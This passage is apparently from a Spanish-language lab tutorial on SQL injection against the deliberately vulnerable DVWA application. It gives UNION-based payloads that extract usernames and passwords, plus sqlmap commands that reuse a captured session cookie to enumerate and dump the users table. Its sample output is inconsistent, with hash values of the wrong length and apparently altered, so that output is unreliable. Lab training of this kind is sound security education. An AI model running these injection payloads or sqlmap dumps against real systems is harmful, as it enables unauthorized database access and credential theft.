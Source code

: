 ```
ID: 5
First name: Bob
Surname: Smith
```

**2.3 Extracción de Datos Sensibles**

```bash
# Determinar número de columnas
User ID: 1' ORDER BY 1--
User ID: 1' ORDER BY 2--  
User ID: 1' ORDER BY 3--   # Este debería dar error

# Extraer usuarios y passwords
User ID: 1' UNION SELECT user, password FROM users--
```

**✅ Resultado Esperado:**
```
ID: admin
First name: 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
Surname: 

ID: gordonb
First name: e99a18c428cb38d5f260853678922e03abd12345
Surname: 

ID: 1337
First name: 8d3533d75ae2c3966d7e0d4fcc69216b75de9d10
Surname: 
```

**2.4 Automatización con SQLmap**

```bash
# Desde Kali, obtener cookies de sesión
curl -c cookies.txt -d "username=admin&password=password&Login=Login" \
http://172.25.0.20/login.php

# Extraer valor de PHPSESSID de cookies.txt
cat cookies.txt | grep PHPSESSID

# Usar SQLmap
sqlmap -u "http://172.25.0.20/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=VALOR_OBTENIDO" \
--dbs --batch

# Enumerar tablas
sqlmap -u "http://172.25.0.20/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=VALOR_OBTENIDO" \
-D dvwa --tables --batch

# Dump usuarios
sqlmap -u "http://172.25.0.20/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=VALOR_OBTENIDO" \
-D dvwa -T users --dump --batch
```
